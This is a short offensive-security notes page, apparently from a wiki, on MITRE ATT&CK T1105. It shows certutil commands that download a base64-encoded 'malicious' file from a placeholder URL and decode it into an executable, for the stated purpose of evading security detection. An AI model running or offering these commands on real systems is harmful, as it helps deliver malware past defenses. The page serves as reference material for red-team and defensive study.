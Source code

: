 ```yaml
---
description: 'MITRE ATT&CK®: T1105: Ingress Tool Transfer'
---
```


# File Transfer

This technique will bypass detection from the system security by encoding the content in the file in base64.

```
certutil -urlcache -split “http://B64MALICIOUSFILE.txt” B64maliciousfile.txt
```

Certutil can now be used to decode the malicious file locally.

```
certutil -decode B64MaliciousFile.txt B64MalciousFile.exe
```















### References:

{% embed url="https://lolbas-project.github.io/lolbas/Binaries/Certutil/" %}

{% embed url="https://www.securityhq.com/blog/security-101-lolbins-malware-exploitation/" %}
